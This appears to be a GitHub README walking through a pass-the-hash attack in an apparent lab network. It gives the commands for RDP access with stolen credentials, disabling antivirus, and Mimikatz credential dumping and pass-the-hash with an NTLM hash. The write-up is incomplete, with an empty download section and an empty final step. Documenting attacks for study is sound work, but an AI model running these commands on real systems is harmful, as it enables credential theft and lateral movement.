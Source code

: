 This attack was carried out on a compromised windows machine in the network.
Checklist before carryinng out the attack

1. Get access to the target ( Here, i used xfreerdp3 with a compromised credential) via the command `proxychains xfreerdp3 /u:usr /p:pass /cert:ignore /v:10.10.10.21`

screenshot below 
<img width="998" height="287" alt="image" src="https://github.com/user-attachments/assets/28391551-3944-45d8-9a83-3128890f0bbc" />

2. Disable the antivirus
   sdsd
   <img width="962" height="738" alt="image" src="https://github.com/user-attachments/assets/93840b64-f72b-471f-8c15-1ec36bc041d2" />

3. Run PowerShell as admin, and run an execution policy bypass command 
<img width="998" height="287" alt="image" src="https://github.com/user-attachments/assets/267c3893-a389-402a-bd41-40814a7c12c6" />

   
The attack progression

## Downloading Mimikatz onto the target


## Utilizing Mimikatz to pass the hash
1. Execute mimikatz.exe and run " privilege::debug "
<img width="1007" height="252" alt="image" src="https://github.com/user-attachments/assets/85e7d259-1189-42dc-b029-ca9498ce7b20" />

2. Dumb the credentials in the compromised machine's memory using the command " sekurlsa::logon " 
<img width="1021" height="490" alt="image" src="https://github.com/user-attachments/assets/24397aa8-a1a3-4f8a-9fbf-90d2f402f6d8" />

3.  From the dumped credentials, choose a particular account and its hash to run the pass the hash attack. `sekurlsa::pth /domain:cyberware.firm /user:app-svc /ntlm:9b241c87d54a761a08a8cae4252f4dca /run:powershell.exe`
<img width="1032" height="458" alt="image" src="https://github.com/user-attachments/assets/323a58ff-acaf-48b5-9d94-5d79361ef3b8" />
This should spin up a new PowerShell running on the "COmromised machine" but with the privileges of the account used during the pass the hash attack.
4.  
